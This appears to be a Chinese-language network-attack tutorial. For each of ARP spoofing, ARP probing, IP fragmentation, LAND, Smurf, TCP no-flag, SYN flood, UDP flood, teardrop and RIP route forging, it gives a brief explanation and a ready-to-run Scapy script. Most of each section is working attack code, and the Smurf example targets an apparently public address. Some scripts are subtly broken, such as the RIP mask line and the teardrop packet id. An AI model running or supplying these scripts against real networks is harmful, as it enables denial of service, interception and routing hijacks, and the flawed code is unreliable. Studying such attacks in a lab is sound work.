


# 网络协议攻击

## ARP攻击 ##

#### 原理： ####

---

每个主机都有一个ARP表，对应着ip和Mac地址的关系，如果是局域网内通信，局域网是二层的，局域网通信是依靠mac地址来寻找主机。当仅知道ip的情况下，就会根据ARP表中ip与mac地址的关系去获取mac地址；如果ARP表中没有记录，就会发送广播包询问，对方也会发送广播包回复。收到回复包之后就会更新ARP表。

由于主机更新ARP表是没有什么安全防护的，收到更新包就会更新ARP表，所以我们可以通过伪造发送ARP包的方式，将受害者的主机中的ARP表修改，若使得受害者ARP表中 攻击机的mac地址对应着网关ip，那么我们就可以在攻击机中窃听受害者主机的流量了。

这里攻击方式有两种：

### 1、向受害主机B发送ARP应答包，包内内容为 MAC地址为xxx的IP地址为xxx ###

这里红色字的就是我们需要伪造的点

#### 代码： ####

---

	from scapy.all import *

	gwIp = "192.168.58.1"                #网关ip
	targetIp = "192.168.58.130"          #受害者Ip
	targetMac = getmacbyip(targetIp)     #受害者MAC地址，通过scapy内置函数 getmacbyip获取，这个函数其实就是发送一个ARP请求广播包，询问指定的ip的mac地址
	selfIp = get_if_addr("eth0")         #本机ip
	selfMac = get_if_hwaddr("eth0")      #本机MAC地址
	
	arpPacket = Ether()/ARP()            #ARP包，二层，需要套一个Ether
	arpPacket[Ether].src = selfMac
	arpPacket[Ether].dst = targetMac     #Ether指定一下本机mac和目标mac
	
	arpPacket[ARP].hwsrc = selfMac       #源mac是攻击机Mac
	arpPacket[ARP].psrc = gwIp           #源ip是网关ip  这样就会伪造成 网关ip的mac地址就是攻击机
	arpPacket[ARP].hwdst = targetMac
	arpPacket[ARP].pdst = targetIp
	arpPacket[ARP].op=2                  #op为1是请求包 2是应答包
	
	sendp(arpPacket)

抓包：

受害主机攻击前的arp表

攻击后

### 2、向受害主机B发送ARP请求包，包内内容为 B主机的mac地址多少，告诉MAC地址为xxxx的IP地址为xxx的主机 ###

这里红色字的就是我们需要伪造的点
其实和上面第一种方式发的包差不多，只不过op为1，微观上有些不同而已，主机会把来源mac和来源ip记录在arp表中

#### 代码： ####

---

	from scapy.all import *

	gwIp = "192.168.58.1"
	targetIp = "192.168.58.130"
	targetMac = getmacbyip(targetIp)
	selfIp = get_if_addr("eth0")
	selfMac = get_if_hwaddr("eth0")
	
	arpPacket = Ether()/ARP()
	arpPacket[Ether].src = selfMac
	arpPacket[Ether].dst = targetMac
	
	arpPacket[ARP].hwsrc = selfMac
	arpPacket[ARP].psrc = gwIp                
	arpPacket[ARP].hwdst = targetMac
	arpPacket[ARP].pdst = targetIp
	arpPacket[ARP].op = 1
	
	sendp(arpPacket)

抓包：

arp表：

## ARP sweep ##

#### 原理： ####

---

就是通过发送arp请求，探测是否存活。scapy中内置有 is_promisc 可以探测，也内置有 getipbymac 可以通过发送arp请求获取指定ip的mac地址。这里我们不用这些内置函数，从原理上写一个。

#### 代码： ####

---

	from scapy.all import *
	
	targetIp = "192.168.58.130"
	selfMac = get_if_hwaddr("eth0")
	selfIp = get_if_addr("eth0")
	
	arpPacket = Ether()/ARP()
	
	arpPacket[Ether].src = selfMac    
	arpPacket[Ether].dst = "ff:ff:ff:ff:ff:ff"    #Ether层的目标为ff:ff:ff:ff:ff:ff,表面是广播包
	arpPacket[ARP].op = 1
	arpPacket[ARP].hwsrc = selfMac
	arpPacket[ARP].psrc = selfIp
	arpPacket[ARP].hwdst = "ff:ff:ff:ff:ff:ff"    #不知道mac地址，填ff:ff:ff:ff:ff:ff
	arpPacket[ARP].pdst = targetIp                #ARP目标就是你要获取mac地址的那个主机的ip地址
	
	response = srp(arpPacket,timeout=1)
	print("++++response++++")
	print(response)
	print("----response----")
	
	(r1, r2) = response
	print("++++r1.show()++++")
	r1.show()
	print("----r1.show()----")
	
	print("++++r1[0]++++")
	print(r1[0])
	print("----r1[0]----")
	
	r1[0][1].show()

## IP FRAG ##

#### 原理： ####

---

分片攻击，有icmp和UDP的，这里演示用UDP，基本原理差不多。
IP首部有两个字节表示整个IP数据包的长度，所以IP数据包最长只能为 0xFFFF，即 65535字节。如果有意发送超过了65535个字节的数据包，可能会造成DOS（只针对老系统），有个攻击程序叫jolt2.c

所以说，只要我们构建一个长度超过65535字节的数据包发出去即可。但是scapy不允许发送超过65535字节的数据包，需要我们手动进行分片：

#### ip分片规则： ####

---

构建了一个有3000字节数据的数据包

分片包：

最后一个包：

#### 根据规律写代码： ####

---

	from scapy.all import *
	junkData = "A"*1400                    #这里取1400，因为如果是1480的话，会有很神奇的问题，scapy会帮我们加多几个字节，但是后面的包破坏队形，所以给了个缓存长度，设置为1400
	data = IP()/UDP()/junkData
	data[UDP].sport = 80
	data[UDP].dport = 80
	data[IP].dst = "192.168.58.130"
	data[IP].src = get_if_addr("eth0")
	data[IP].id = 1                        #id要一样
	
	for i in range(60):
	    data[IP].flags = 1                 #scapy中，flags = 1就是设置MF位（更多分片位）为1
	    if i == 0:
	        data[IP].frag = 0              #scapy中，frag是偏移值，第一个分片包偏移值为0
	    else:
	        data[IP].frag = ((i*1400) / 8)    #偏移值为包体大小 / 8
	    send(data)
	data[IP].frag = (60*1400) / 8
	data[IP].flags = 0                        #最后一个包，MF位为0
	send(data)

## LAND ##

#### 原理： ####

---

某些老系统，当遇到具有相同源地址和相同目标地址（都指向受害者本机），甚至源端口和目的端口都是相同的，它会循环发送这个数据包直到系统崩溃

#### 代码： ####

---

	from scapy.all import *
	
	packet = IP()/TCP()
	packet[IP].src = packet[IP].dst = "192.168.58.130"
	packet[TCP].sport = packet[TCP].dport = 80
	send(packet)

## SMURF ##

#### 原理： ####

---

发送icmp echo请求包的时候，将源地址设置成受害主机的广播地址，路由器以为这是一个广播包，将这个icmp echo请求包广播出去，导致整个网段的主机都像受害主机发送icmp 响应数据包

#### 代码： ####

---

	from scapy.all import *
	
	packet = Ether()/IP()/ICMP()
	packet[IP].dst = "206.121.73.255"        #随便找的一个组播地址？
	packet[IP].src = "192.168.58.131"        #受害者ip
	
	sendp(packet)

## TCP NO FLAG ##

#### 原理： ####

---

发送tcp包时，故意设置flag位为0，可能会导致受害主机崩溃

#### 代码： ####

	from scapy.all import *
	
	packet = IP()/TCP()
	packet[IP].dst = "192.168.58.130"
	packet[TCP].flags = 0
	send(packet)

## TCP SYN FLOOD ##

#### 原理： ####

---

利用tcp三次握手的消耗，当发送了一个syn请求时，服务器会返回一个syn+ack，然后等待客户端发送ack
但是这个时候偏偏就不发ack过去，让服务器持续挂起连接。如果使用循环和多线程，造成大量的syn连接挂起，消耗服务器资源甚至崩溃
（kali中的hping3 的 syn 很厉害）

#### 代码： ####

---
	
	from scapy.all import *
	
	packet = IP()/TCP()
	packet[TCP].dport = 80
	
	for i in range(0,256):
	    for j in range(0,256):
	        for k in range(0,256):
	            for n in range(0,256):
	                for p in range(0,65535):
	                    packet[IP].src = str(i) + '.' + str(j) + '.' + str(k) + '.' + str(n)
	                    packet[IP].dst = "192.168.58.130"
	                    packet[TCP].sport = int(p)
	                    packet[TCP].flags = "S"
	                    send(packet)

## UDP FLOOD ##

#### 原理： ####

---

当发送一个UDP的数据包时，若端口不可达，服务器就会返回一个ICMP包，若如果发送了FLOOD洪水攻击，就会让服务器发送ICMP应接不暇，导致DOS

#### 代码： ####

---
	from scapy.all import *

	packet = IP(dst="192.168.58.130")/UDP(sport=80,dport=80)
	while True:
	    send(packet)

## TEAR DROP ##

#### 原理： ####

---

分片攻击的一种，当分片的数据包后一个数据包的偏移小于前一个数据包的偏移时，某些系统可能会崩溃

#### 代码： ####

---

	from scapy.all import *
	
	p1 = IP()/UDP()
	p1[IP].dst = "192.168.58.130"
	p1[IP].id = 1
	p1[IP].flags = 1
	p1[IP].frag = 0
	p1[IP].len = 60                    #第一个数据包长度是60
	
	p2 = IP()/UDP()
	p2[IP].dst = "192.168.58.130"
	p1[IP].id = 1
	p2[IP].flags = 0                
	p2[IP].frag = 1                    #偏移为1，小于第一个数据包的长度。造成teardrop攻击
	p2[IP].len = 60
	
	send(p1)
	send(p2)

## RIP协议攻击 ##

#### 原理： ####

---

rip协议更新路由，一般没有什么安全验证，收到了rip包就会更新。所以伪造的rip包可以欺骗使用rip协议的路由器
rip协议是路由器之间建立关系的协议之一。通过跳数来确定下一条路由器地址（路由器就像是不同网段的中转站，不同网段通信要将数据包发给路由器，路由器再传给下一个路由器，最终到达目标主机）。跳数越低，说明路线更优，路由器就会将去往那个网段的下一跳地址更新为跳数更低的路由器。

#### 代码： ####

---

	from scapy.all import *
	
	packet = Ether()/IP()/UDP()/RIP()/RIPEntry()
	packet[IP].src = "192.168.58.130"                
	packet[IP].dst = "224.0.0.9"                    #组播地址，rip更新的组播地址为 224.0.0.9
	packet[UDP].sport = 520                         #更新端口。rip的端口为520
	packet[UDP].dport = 520
	packet[RIP].cmd = 2                             #1为请求包，2为应答包
	packet[RIP].version = 2                         #标明rip版本为 ripv2
	packet[RIPEntry].addr = "1.1.1.0"               #要新增或更新的网段
	packet[RIPEntry].addr = "255.255.255.0"         #要新增或更新的网段子网掩码
	packet[RIPEntry].metric = 1                     #跳数，跳数越低，越容易将路由器的记录修改。此时如果成功让路由器去往1.1.1.0的网段的下一跳ip设置为上面的src地址，可能会造成断网或者中间人嗅探的情况。
	sendp(packet)
